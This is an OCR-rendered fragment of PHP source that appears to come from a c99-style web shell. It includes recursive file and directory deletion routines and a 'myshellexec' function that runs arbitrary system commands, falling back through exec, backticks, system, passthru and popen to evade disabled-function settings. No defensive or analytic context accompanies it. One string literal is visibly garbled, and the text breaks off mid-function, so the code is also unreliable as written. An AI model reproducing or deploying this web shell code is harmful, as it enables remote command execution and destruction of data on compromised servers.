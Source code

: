 if (!function_exists("fs_rmdir"))
{
function fs_rmdir($d)
{
 $h = opendir($d);
 while (($o = readdir($h)) !== FALSE)
 {
  if (($o != ".") and ($o != ".."))
  {
   if (!is_dir($d.$o)) {unlink($d.$o);}
   else {fs_rmdir($d.$o.DIRECTORY_SEPARATOR); rmdir($d.$o);}
  }
 }
 closedir($h);
 rmdir($d);
 return !is_dir($d);
}
}
if (!function_exists("fs_rmobj"))
{
function fs_rmobj($o)
{
 $o = str_replace("\",DIRECTORY_SEPARATOR,$o);
 if (is_dir($o))
 {
  if (substr($o,-1) != DIRECTORY_SEPARATOR) {$o .= DIRECTORY_SEPARATOR;}
  return fs_rmdir($o);
 }
 elseif (is_file($o)) {return unlink($o);}
 else {return FALSE;}
}
}
if (!function_exists("myshellexec"))
{
function myshellexec($cmd)
{
 global $disablefunc;
 $result = "";
 if (!empty($cmd))
 {
  if (is_callable("exec") and !in_array("exec",$disablefunc)) {exec($cmd,$result); $result = join("
",$result);}
  elseif (($result = `$cmd`) !== FALSE) {}
  elseif (is_callable("system") and !in_array("system",$disablefunc)) {$v = @ob_get_contents(); @ob_clean(); system($cmd); $result = @ob_get_contents(); @ob_clean(); echo $v;}
  elseif (is_callable("passthru") and !in_array("passthru",$disablefunc)) {$v = @ob_get_contents(); @ob_clean(); passthru($cmd); $result = @ob_get_contents(); @ob_clean(); echo $v;}
  elseif (is_resource($fp = popen($cmd,"r")))
  {
   $result = "";
   while(!feof($fp)) {$result .= fread($fp,1024);}
   pclose($fp);
  }
 }
 return $result;
}
}
if (!function_exists("tabsort")) {function tabsort($a,$b) {global $v; return strnatcmp($a[$v], $b[$v]);}}
if (!function_exists("view_perms"))
{
function view_perms($mode)
{
 if (($mode & 0xC000) === 0xC000) {$type = "s";}